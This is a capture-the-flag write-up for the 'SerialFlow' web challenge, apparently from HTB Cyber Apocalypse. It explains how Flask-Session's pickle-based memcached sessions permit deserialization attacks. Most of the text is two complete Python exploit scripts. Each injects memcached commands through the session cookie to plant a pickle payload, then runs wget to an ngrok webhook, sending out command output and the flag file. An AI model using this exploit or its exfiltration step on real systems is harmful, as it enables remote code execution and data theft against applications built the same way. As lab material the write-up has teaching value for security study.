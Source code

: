 ## **Description**
SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?
<br></br>

```py
import pylibmc, uuid, sys
from flask import Flask, session, request, redirect, render_template
from flask_session import Session

app = Flask(__name__)

app.secret_key = uuid.uuid4()

app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)

Session(app)
```
The `memcached` is used for caching data 


In `requqirements.txt` we can see it uses `pylibmc==1.6.3` also `Flask-Session==0.4.0`

```txt
Flask==2.2.2
Flask-Session==0.4.0
pylibmc==1.6.3
Werkzeug==2.2.2
```
After reading the sessions.py from `https://github.com/pallets-eco/flask-session/blob/main/src/flask_session/sessions.py`

I found that it use the `cPickle` which is vulnerable to deserialization attack, After a bit of googling about memcached and cPickle i came accross this as POC of the exploit
`https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/`

I tried to wget my webhook and it worked !, GOT RCE
<br></br>
```py
from requests import *
import re
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://1a46-80-10-22-106.ngrok-free.app/?c=$(id)')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:10 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:10')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
c=generate_exploit()
print(c)
url="http://83.136.255.150:51682/"
r=get(url,cookies={"session":c})
# print(r.text)
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/HTB_cyber_apocalypse/WEB/images/7.PNG">
<br></br>
```py
from requests import *
import re
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://1a46-80-10-22-106.ngrok-free.app/?c=$(cat /flag*)')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:10 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:10')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
c=generate_exploit()
print(c)
url="http://83.136.255.150:51682/"
r=get(url,cookies={"session":c})
# print(r.text)
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/HTB_cyber_apocalypse/WEB/images/8.PNG">
<br></br>
```
HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}
```
